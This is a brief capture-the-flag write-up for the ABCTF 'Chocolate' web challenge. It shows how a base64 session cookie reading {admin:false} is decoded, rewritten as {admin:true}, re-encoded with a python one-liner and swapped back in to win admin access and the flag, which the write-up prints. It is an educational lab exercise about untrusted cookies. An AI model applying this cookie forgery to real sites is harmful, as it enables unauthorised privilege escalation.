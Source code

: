 # Chocolate - 50 Solution
---

I used the Firefox inspector tools to check out the website's storage. The session cookie was:

**e2FkbWluOmZhbHNlfQ%3D%3D**

Which is a URL-Encoded base64 string recognized from the padding which was:

**e2FkbWluOmZhbHNlfQ==**

So in terminal I did

`echo "e2FkbWluOmZhbHNlfQ==" | base64 -D`

and got:

**{admin:false}**

So we set the admin attribute equal to true and serialize it, which I did in python by:

`python -c "print \"{admin:true}\".encode('base64')"`

And got: **e2FkbWluOnRydWV9**

Which I made the session cookie, refreshed the page and voila the flag

Flag: **ABCTF{don't_trust_th3_coooki3}**
